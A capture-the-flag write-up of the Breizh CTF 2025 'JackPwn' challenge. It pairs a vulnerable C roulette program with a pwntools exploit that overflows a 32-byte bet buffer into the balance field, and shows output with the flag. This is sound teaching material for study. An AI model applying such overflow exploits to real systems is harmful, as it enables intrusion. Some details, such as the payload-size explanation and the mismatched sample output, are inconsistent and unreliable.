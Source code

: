 ```yaml
---
title: "Breizh CTF 2025 - JackPwn"
date: 2025-04-14
tags: ["pwn", "buffer-overflow", "exploitation"]
categories: ["pwn"]
ctfs: ["breizh-ctf"]
---
```


# JackPwn - Breizh CTF 2025

## Challenge Description

JackPwn is a Pwn category challenge from Breizh CTF 2025. It simulates a roulette game with a vulnerability.

## Binary Analysis

Here is the source code of the binary:

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>
#include <time.h>

#define MISE 2

const char roulette[] = "xRNRNRNRNRNNRNRNRNRRNRNRNRNRNNRNRNRNR";

void read_input(char *buf) {
    char c;
    while (1) {
        c = getchar();
        if (c == '\n') {
            *(buf++) = 0;
            break;
        } else if (c == EOF) {
            exit(0);
        }
        *(buf++) = c;
    }
}

int get_random_number() {
    return 1 + (random() % 36);
}

int main() {
    int bille;
    char gagne;
    char valide, rouge, noir, pair, impair;

    struct {
        char mise[32];
        int solde;
    } ctx;

    ctx.solde = 50;

    srand(time(NULL));

    while (ctx.solde > 0) {
        valide = rouge = noir = pair = impair = 0;
        gagne = 0;

        do {
            printf("Solde : %d\n", ctx.solde);
            printf("Votre mise : ");
            fflush(stdout);
            read_input(ctx.mise);

            if (!strcmp(ctx.mise, "rouge")) {
                valide = rouge = 1;
            } else if (!strcmp(ctx.mise, "noir")) {
                valide = noir = 1;
            } else if (!strcmp(ctx.mise, "pair")) {
                valide = pair = 1;
            } else if (!strcmp(ctx.mise, "impair")) {
                valide = impair = 1;
            } else {
                puts("Mise invalide");
            }
        } while (!valide);

        bille = get_random_number();
        printf("La bille s'est stoppée sur la case %d (%c)\n", bille, roulette[bille]);

        if (rouge && roulette[bille] == 'R') {
            gagne = 1;
        } else if (noir && roulette[bille] == 'N') {
            gagne = 1;
        } else if (pair && ((bille % 2) == 0)) {
            puts("pair");
            gagne = 1;
        } else if (impair && ((bille % 2) == 1)) {
            puts("impair");
            gagne = 1;
        } else {
            gagne = 0;
        }

        if (gagne) {
            puts("Gagné");
            ctx.solde += MISE;
        } else {
            puts("Perdu");
            ctx.solde -= MISE;
        }

        if (ctx.solde == 0x1337) {
            char *flag = getenv("FLAG");
            if (flag == NULL) {
                puts("fake_flag");
            } else {
                puts(flag);
            }
            return 0;
        }
    }
}
```

After analysis, we can identify several key points:

1. The program simulates a roulette game where the player can bet on "rouge" (red), "noir" (black), "pair" (even), or "impair" (odd)
2. A `ctx` structure contains two elements:
   - `mise[32]`: a 32-byte buffer to store the bet
   - `solde`: an integer representing the player's balance
3. The flag is displayed only if the balance reaches exactly 0x1337 (4919 in decimal)
4. The `read_input()` function reads characters until it encounters a newline, without checking the buffer size
5. With an initial balance of 50 and gains/losses of only 2, it would take a huge number of rounds to reach 4919

## Vulnerability

The main vulnerability is a classic buffer overflow in the `read_input()` function:

```c
void read_input(char *buf) {
    char c;
    while (1) {
        c = getchar();
        if (c == '\n') {
            *(buf++) = 0;
            break;
        } else if (c == EOF) {
            exit(0);
        }
        *(buf++) = c;
    }
}
```

This function does not check the buffer size and continues writing until it encounters a newline. Moreover, when this function is called, the buffer passed as a parameter is `ctx.mise`, which is only 32 bytes. If you enter more than 32 characters, you will overflow into the `solde` field, which is located just after in memory.

## Exploitation

The exploitation strategy is simple:
1. Fill the 32-byte `mise` buffer
2. Write exactly 4 more bytes with the value 0x1337 (4919) into `solde`
3. The value will be considered valid because the buffer is null-terminated (added by `read_input`)

Here is how to exploit this vulnerability:

```python
from pwn import *

HOST = "jackpwn-180.chall.ctf.bzh"
PORT = 1337

p = remote(HOST, PORT)

payload = b"rouge".ljust(32, b"\x00")  
payload += p64(0x1335)                 #0x1337 - 2 align on 64 bits 

p.recvuntil(b"Votre mise : ")
p.sendline(payload)

while True:
    try:
        line = p.recvline(timeout=1).decode().strip()
        print(line)
        if "BZHCTF{" in line:
            break
    except:
        break

p.close()

```

## Flag

After running the exploit, the program detects that the balance is exactly 0x1337 and displays the flag:

```
$ python3 exploit.py
[+] Opening connection to jackpwn.chall.ctf.bzh on port 1337: Done
[+] Receiving all data: Done
[*] Closed connection to jackpwn.chall.ctf.bzh port 1337
Mise invalide
Solde : 4919
Votre mise : 
BZHCTF{j4ckp0t_0v3rfl0w_ftw}
```
